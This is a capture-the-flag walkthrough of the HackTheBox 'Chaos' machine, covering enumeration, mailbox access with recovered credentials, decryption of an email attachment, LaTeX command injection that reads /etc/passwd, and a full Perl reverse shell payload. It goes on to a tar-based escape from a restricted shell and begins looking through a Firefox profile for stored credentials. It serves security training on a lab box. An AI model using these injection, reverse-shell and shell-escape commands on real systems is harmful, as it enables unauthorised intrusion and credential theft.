









hackthebox Chaos
Released: 15th Dec 2018 / Pwned: May 18th '19 - [+] Solved whilst Active

Chaos is very much a ctf machine. Initial entry is pretty crap in my opinion but, from there on it gradually becomes more logical. In the box's defense, I learnt a fair few new things from doing this challenge.
Summary
• take the bait
• enumerate to find a super secret blog which gives us credentials
• get some interesting files from an email inbox and decrypt said files
• make use of a web-based latex compiler to get a shell using command injection
• su to a user we already know
• escape jail through extraction
• decrypt .mozilla
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.184
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@kali:~/ctf/chaos# mkdir nmap
root@kali:~/ctf/chaos# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.120
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-17 10:19 BST
Nmap scan report for 10.10.10.120
Host is up (0.052s latency).
Not shown: 994 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.34 ((Ubuntu))
|_http-server-header: Apache/2.4.34 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp open pop3 Dovecot pop3d
|_pop3-capabilities: UIDL SASL CAPA STLS TOP AUTH-RESP-CODE PIPELINING RESP-CODES
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after: 2028-10-25T10:01:49
|_ssl-date: ERROR: Script execution failed (use -d to debug)
143/tcp open imap Dovecot imapd (Ubuntu)
|_imap-capabilities: listed have post-login LITERAL+ more IMAP4rev1 LOGIN-REFERRALS ID SASL-IR Pre-login IDLE STARTTLS ENABLE OK LOGINDISABLEDA0001 capabilities
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after: 2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
993/tcp open ssl/imap Dovecot imapd (Ubuntu)
|_imap-capabilities: have post-login LITERAL+ more IMAP4rev1 LOGIN-REFERRALS ID SASL-IR Pre-login IDLE listed ENABLE OK AUTH=PLAINA0001 capabilities
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after: 2028-10-25T10:01:49
|_ssl-date: ERROR: Script execution failed (use -d to debug)
995/tcp open ssl/pop3 Dovecot pop3d
|_pop3-capabilities: UIDL SASL(PLAIN) CAPA USER TOP AUTH-RESP-CODE PIPELINING RESP-CODES
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after: 2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
10000/tcp open http MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=5/17%OT=80%CT=1%CU=43064%PV=Y%DS=2%DC=I%G=Y%TM=5CDE7CC
OS:7%P=i686-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R
OS:=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.75 seconds
80/http is where to look first.
110/POP3 is unencrypted pop3.
143/imap is unencrypted imap.
993/SSL-POP is encrypted pop3.
995/IMAPS is encrypted imap- useful later.
10000/webmin is a web portal for managing linux machines. Don't bruteforce this, it'll lock you out.
2) 80/http
Turns out access via IP isn't allowed:
Edit your hosts file to include 10.10.10.120 chaos.htb and you'll be able to access the site.
root@kali:~/ctf/chaos# nano /etc/hosts
...
10.10.10.120 chaos.htb
...
root@kali:~/ctf/chaos#
Apparently they're still working on the blog.

This is the only hint at what you're supposed to do next.
The ‘Direct IP not allowed’ was actually a bait. What you should be directing your enumeration towards is 10.10.10.120, not chaos.htb. Maybe you're supposed to think that 10.10.10.120 is the development part of the site after reading “we are working on blog I have no idea. I only reached the conclusion to enumerate 10.10.10.120 after completely exhausting chaos.htb.
Oh look, wordpress.
root@kali:~/ctf/chaos/80http# gobuster -e -u http://10.10.10.120/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gb-ip-common.txt
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.120/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/05/17 15:58:21 Starting gobuster
=====================================================
http://10.10.10.120/.hta (Status: 403)
http://10.10.10.120/.htpasswd (Status: 403)
http://10.10.10.120/.htaccess (Status: 403)
http://10.10.10.120/index.html (Status: 200)
http://10.10.10.120/javascript (Status: 301)
http://10.10.10.120/server-status (Status: 403)
http://10.10.10.120/wp (Status: 301)
=====================================================
2019/05/17 15:58:52 Finished
=====================================================
Follow the link on the homepage to the ‘Protected: chaos’ post:

The password is right infront of you - human.
Why? I have no idea. It makes no sense.
The only reason I guessed human was because wpscan found a user called ‘human’ when I enumerated:
root@kali:~/ctf/chaos/80http# wpscan --url http://10.10.10.120/wp/wordpress -e
[+] Enumerating Users (via Passive and Aggressive Methods)
Brute Forcing Author IDs - Time: 00:00:00 <========================> (10 / 10) 100.00% Time: 00:00:00
[i] User(s) Identified:
[+] human
| Detected By: Author Posts - Author Pattern (Passive Detection)
| Confirmed By:
| Rss Generator (Passive Detection)
| Wp Json Api (Aggressive Detection)
| - http://10.10.10.120/wp/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)

Afer that, you get login credentials for the webmail.
username – ayush
password – jiujitsu
3) 993/imaps
I didn't know of any webmail but from enumeration at the start we know that the email ports were open.
IMAPS is encrypted, so you'll need to use openssl to connect. Using the credentials, log in to the IMAP on port 993:
openssl s_client -connect chaos.htb:993
IMAP commands:
a LOGIN <user> <pass> - to login
a LIST "" "*" - to list all folders in the mailbox
a SELECT Drafts - to select the Drafts mailbox (we see that there's 1 email)
a FETCH 1:* FLAGS - should show the id of the email so that we can read it
a FETCH 1 (BODY.PEEK[]) - to read the email
root@kali:~/ctf/chaos# openssl s_client -connect chaos.htb:993
CONNECTED(00000003)
...
[ssl certficate stuff]
...
---
read R BLOCK
* OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ AUTH=PLAIN] Dovecot (Ubuntu) ready.
LOGIN
LOGIN BAD First parameter in line is IMAPs command tag, not the command name. Add that before the command, like: a login user pass
a LOGIN ayush jiujitsu
a OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in
a LIST "" "*"
* LIST (\NoInferiors \UnMarked \Drafts) "/" Drafts
* LIST (\NoInferiors \UnMarked \Sent) "/" Sent
* LIST (\HasNoChildren) "/" INBOX
a OK List completed (0.004 + 0.000 + 0.003 secs).
a SELECT Drafts
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
* 1 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1540728611] UIDs valid
* OK [UIDNEXT 5] Predicted next UID
a OK [READ-WRITE] Select completed (0.004 + 0.000 + 0.003 secs).
a FETCH 1:* FLAGS
* 1 FETCH (FLAGS (\Seen))
a OK Fetch completed (0.001 + 0.000 secs).
a FETCH 1 (BODY.PEEK[])
* 1 FETCH (BODY[] {2532}
MIME-Version: 1.0
Content-Type: multipart/mixed;
boundary="=_00b34a28b9033c43ed09c0950f4176e1"
Date: Sun, 28 Oct 2018 17:46:38 +0530
From: ayush <ayush@localhost>
To: undisclosed-recipients:;
Subject: service
Message-ID: <7203426a8678788517ce8d28103461bd@webmail.chaos.htb>
X-Sender: ayush@localhost
User-Agent: Roundcube Webmail/1.3.8
--=_00b34a28b9033c43ed09c0950f4176e1
Content-Transfer-Encoding: 7bit
Content-Type: text/plain; charset=US-ASCII;
format=flowed
Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush
--=_00b34a28b9033c43ed09c0950f4176e1
Content-Transfer-Encoding: base64
Content-Type: application/octet-stream;
name=enim_msg.txt
Content-Disposition: attachment;
filename=enim_msg.txt;
size=272
MDAwMDAwMDAwMDAwMDIzNK7uqnoZitizcEs4hVpDg8z18LmJXjnkr2tXhw/AldQmd/g53L6pgva9
RdPkJ3GSW57onvseOe5ai95/M4APq+3mLp4GQ5YTuRTaGsHtrMs7rNgzwfiVor7zNryPn1Jgbn8M
7Y2mM6I+lH0zQb6Xt/JkhOZGWQzH4llEbyHvvlIjfu+MW5XrOI6QAeXGYTTinYSutsOhPilLnk1e
6Hq7AUnTxcMsqqLdqEL5+/px3ZVZccuPUvuSmXHGE023358ud9XKokbNQG3LOQuRFkpE/LS10yge
+l6ON4g1fpYizywI3+h9l5Iwpj/UVb0BcVgojtlyz5gIv12tAHf7kpZ6R08=
--=_00b34a28b9033c43ed09c0950f4176e1
Content-Transfer-Encoding: base64
Content-Type: text/x-python; charset=us-ascii;
name=en.py
Content-Disposition: attachment;
filename=en.py;
size=804
ZGVmIGVuY3J5cHQoa2V5LCBmaWxlbmFtZSk6CiAgICBjaHVua3NpemUgPSA2NCoxMDI0CiAgICBv
dXRwdXRGaWxlID0gImVuIiArIGZpbGVuYW1lCiAgICBmaWxlc2l6ZSA9IHN0cihvcy5wYXRoLmdl
dHNpemUoZmlsZW5hbWUpKS56ZmlsbCgxNikKICAgIElWID1SYW5kb20ubmV3KCkucmVhZCgxNikK
CiAgICBlbmNyeXB0b3IgPSBBRVMubmV3KGtleSwgQUVTLk1PREVfQ0JDLCBJVikKCiAgICB3aXRo
IG9wZW4oZmlsZW5hbWUsICdyYicpIGFzIGluZmlsZToKICAgICAgICB3aXRoIG9wZW4ob3V0cHV0
RmlsZSwgJ3diJykgYXMgb3V0ZmlsZToKICAgICAgICAgICAgb3V0ZmlsZS53cml0ZShmaWxlc2l6
ZS5lbmNvZGUoJ3V0Zi04JykpCiAgICAgICAgICAgIG91dGZpbGUud3JpdGUoSVYpCgogICAgICAg
ICAgICB3aGlsZSBUcnVlOgogICAgICAgICAgICAgICAgY2h1bmsgPSBpbmZpbGUucmVhZChjaHVu
a3NpemUpCgogICAgICAgICAgICAgICAgaWYgbGVuKGNodW5rKSA9PSAwOgogICAgICAgICAgICAg
ICAgICAgIGJyZWFrCiAgICAgICAgICAgICAgICBlbGlmIGxlbihjaHVuaykgJSAxNiAhPSAwOgog
ICAgICAgICAgICAgICAgICAgIGNodW5rICs9IGInICcgKiAoMTYgLSAobGVuKGNodW5rKSAlIDE2
KSkKCiAgICAgICAgICAgICAgICBvdXRmaWxlLndyaXRlKGVuY3J5cHRvci5lbmNyeXB0KGNodW5r
KSkKCmRlZiBnZXRLZXkocGFzc3dvcmQpOgogICAgICAgICAgICBoYXNoZXIgPSBTSEEyNTYubmV3
KHBhc3N3b3JkLmVuY29kZSgndXRmLTgnKSkKICAgICAgICAgICAgcmV0dXJuIGhhc2hlci5kaWdl
c3QoKQoK
--=_00b34a28b9033c43ed09c0950f4176e1--
)
a OK Fetch completed (0.002 + 0.000 + 0.001 secs).
We find an interesting email with 2 interesting attachments - enim-msg.txt and en.py
If you look at the ‘Content-Transfer-Encoding’ header, you'll see that the attachments are base64 encoded.
Copy/paste the base64 strings (1st attachment ends in - R08=, 2nd attachment ends in KQoK) into their own files on your attacking machine and base64 decode them:
root@kali:~/ctf/chaos# nano enim_msg.txt.b64
root@kali:~/ctf/chaos# cat enim_msg.txt.b64 | base64 -d > enim_msg.txt
root@kali:~/ctf/chaos# file enim_msg.txt
enim_msg.txt: data
root@kali:~/ctf/chaos# nano en.py.b64
root@kali:~/ctf/chaos# cat en.py.b64 | base64 -d > en.py
4) Decrypt enim_msg.txt
Reading the email we see that we've been given an encrypted file, the script used to encrypt said file, and that said file has been encrypted with the password “sahay›
Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush
4a) Modify en.py
Time to decrypt to enim_msg.txt.
You actually only have to change 1 line in the en.py script (and include the necessary libraries) to decrypt the file since the script uses a library to encrypt and not self written.
Change outfile.write(encryptor.encrypt(chunk)) to outfile.write(encryptor.decrypt(chunk))
BUT, I made some extra changes just for clarity and when figuring out how it works.
1) Import necessary libraries:
import os
from Crypto.Cipher import AES
from Crypto.Hash import SHA256
from Crypto import Random
2) Change the name of the output file:
outputFile = "dec_" + filename
3) Rename ‘encryptor’ to ‘decryptor’, just for clarity:
decryptor = AES.new(key, AES.MODE_CBC, IV)
4) Use new ‘decryptor’ variable and use decrypt, not encrypt
outfile.write(decryptor.decrypt(chunk))
5) Run the decrypt function
decrypt(getKey("sahay"), "enim_msg.txt")
The final script looked like this:
import os
from Crypto.Cipher import AES
from Crypto.Hash import SHA256
from Crypto import Random
def decrypt(key, filename):
chunksize = 64*1024
outputFile = "dec_" + filename
filesize = str(os.path.getsize(filename)).zfill(16)
IV = Random.new().read(16)
decryptor = AES.new(key, AES.MODE_CBC, IV)
with open(filename, 'rb') as infile:
with open(outputFile, 'wb') as outfile:
outfile.write(filesize.encode('utf-8'))
outfile.write(IV)
while True:
chunk = infile.read(chunksize)
if len(chunk) == 0:
break
elif len(chunk) % 16 != 0:
chunk += b' ' * (16 - (len(chunk) % 16))
outfile.write(decryptor.decrypt(chunk))
def getKey(password):
hasher = SHA256.new(password.encode('utf-8'))
return hasher.digest()
decrypt(getKey("sahay"), "enim_msg.txt")
Alternatively you could just google parts of the script and you'll find the whole thing on github - https://github.com/argosk/encrypt-Python/blob/master/encrypt.py
4b) Decryption
root@kali:~/ctf/chaos/993imap# python3 decrypt.py
root@kali:~/ctf/chaos/993imap# ls
dec_enim_msg.txt decrypt.py enim_msg.txt enim_msg.txt.b64 en.py en.py.b64
root@kali:~/ctf/chaos/993imap# cat dec_enim_msg.txt
0000000000000272�R�3�]�
����:�UP��%��Þ�š�TW�sLPOg���SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK
There's an obvious base64 string in the decrypted enim_msg.txt, and thankfully it's the message!
root@kali:~/ctf/chaos/993imap# echo "SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK" > enim_msg_dec.b64
root@kali:~/ctf/chaos/993imap# cat enim_msg_dec.b64 | base64 -d > enim_msg_PLAIN.txt
root@kali:~/ctf/chaos/993imap# cat enim_msg_PLAIN.txt
Hii Sahay
Please check our new service which create pdf
p.s - As you told me to encrypt important msg, i did :)
http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3
Thanks,
Ayush
Back to chaos.htb.
5) /J00_w1ll_f1Nd_n07H1n9_H3r3
http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/
So it looks like this is an unfinished part of the site that creates PDFs.

And examinig this in burp after creating a PDF it looks like it's running pdfTeX, which is part of LaTeX.

web-based LaTeX compilers are vulnerable to command injection because they take user input - https://0day.work/hacking-with-latex/
First test for command injection by reading /etc/passwd.
\immediate\write18{cat /etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
syslog:x:103:108::/home/syslog:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:105:109::/nonexistent:/usr/sbin/nologin
uuidd:x:106:111::/run/uuidd:/usr/sbin/nologin
landscape:x:107:113::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:108:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:998:998:systemd Core Dumper:/:/sbin/nologin
sahay:x:1000:1000:choas:/home/sahay:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:110:115:MySQL Server,,,:/nonexistent:/bin/false
ayush:x:1001:1001:,,,:/home/ayush:/opt/rbash
postfix:x:111:116::/var/spool/postfix:/usr/sbin/nologin
dovecot:x:112:118:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:113:119:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
You can see the result of the command in the response from the web server.

If you're not using burp (but you should, it makes your life a lot easier) - F12 to open up developer tools, network tab, create your PDF/run command injection and in the response to the POST request you'll find the result.

Since we can execute system commands, we should be able to get a reverse shell,
Prep to receive the shell:
root@kali:~/ctf/chaos# nc -lvnp 9001
listening on [any] 9001 ...
A perl reverse shell was what worked for me (after trial and error with bash and nc):
\immediate\write18{perl -e 'use Socket;$i="10.10.13.44";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'}

A shell!
6) www-data to user.txt
Upgrade your shell using python so we can run interactive commands (like su):
...
connect to [10.10.13.44] from (UNKNOWN) [10.10.10.120] 55286
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
Switch user to ayush (we know that ayush is a user from reading /etc/passwd and we got the creds for their account from wordpress):
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ su ayush
su ayush
Password: jiujitsu
You'll quickly realise that you're in a restrcited shell, specifically rbash (you can see this coming if you read through /etc/passwd).
6b) Escape restricted shell
Thankfully, we can escape the restricted shell using tar.
This is a brilliant resource for escaping restricted shells - https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
ayush@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: testfile: Cannot stat: No such file or directory
bash: groups: command not found
ayush@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ id
Command 'id' is available in '/usr/bin/id'
The command could not be located because '/usr/bin' is not included in the PATH environment variable.
id: command not found
We have no commands, so set your $PATH variable so that we can have commands again.
ayush@chaos:/home$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
ayush@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ id
uid=1001(ayush) gid=1001(ayush) groups=1001(ayush)
And get user.txt!
ayush@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ cd /home
ayush@chaos:/home$ cd ayush
ayush@chaos:~$ ls
mail user.txt
ayush@chaos:~$ cat user.txt
eef39...
7) ayush privesc
ayush@chaos:~$ cd ~
ayush@chaos:~$ ls -alh
total 40K
drwx------ 6 ayush ayush 4.0K May 18 16:23 .
drwxr-xr-x 4 root root 4.0K Oct 28 2018 ..
drwxr-xr-x 2 root root 4.0K Oct 28 2018 .app
-rw------- 1 root root 0 Nov 24 23:57 .bash_history
-rw-r--r-- 1 ayush ayush 220 Oct 28 2018 .bash_logout
-rwxr-xr-x 1 root root 22 Oct 28 2018 .bashrc
drwx------ 3 ayush ayush 4.0K May 18 15:11 .gnupg
drwx------ 3 ayush ayush 4.0K May 18 15:41 mail
drwx------ 4 ayush ayush 4.0K Sep 29 2018 .mozilla
-rw-r--r-- 1 ayush ayush 807 Oct 28 2018 .profile
-rw------- 1 ayush ayush 33 Oct 28 2018 user.txt
.mozilla looks interesting :)
ayush@chaos:~$ cd .mozilla
ayush@chaos:~/.mozilla$ ls -alh *
extensions:
total 8.0K
drwx------ 2 ayush ayush 4.0K Sep 29 2018 .
drwx------ 4 ayush ayush 4.0K Sep 29 2018 ..
firefox:
total 20K
drwx------ 4 ayush ayush 4.0K Sep 29 2018 .
drwx------ 4 ayush ayush 4.0K Sep 29 2018 ..
drwx------ 10 ayush ayush 4.0K Oct 27 2018 bzo7sjt1.default
drwx------ 4 ayush ayush 4.0K Oct 15 2018 'Crash Reports'
-rw-r--r-- 1 ayush ayush 104 Sep 29 2018 profiles.ini
bzo7sjt1.default is a firefox profile.
ayush@chaos:~/.mozilla$ cd firefox
ayush@chaos:~/.mozilla/firefox$ ls -alh bzo7sjt1.default
bzo7sjt1.default:
total 15M
drwx------ 10 ayush ayush 4.0K Oct 27 2018 .
drwx------ 4 ayush ayush 4.0K Sep 29 2018 ..
-rw------- 1 ayush ayush 24 Oct 27 2018 addons.json
-rw-r--r-- 1 ayush ayush 222 Oct 27 2018 AlternateServices.txt
-rw------- 1 ayush ayush 559K Oct 11 2018 blocklist-addons.json
-rw------- 1 ayush ayush 28K Oct 7 2018 blocklist-gfx.json
-rw------- 1 ayush ayush 136K Oct 7 2018 blocklist-plugins.json
-rw------- 1 ayush ayush 420K Oct 25 2018 blocklist.xml
drwx------ 2 ayush ayush 4.0K Oct 27 2018 bookmarkbackups
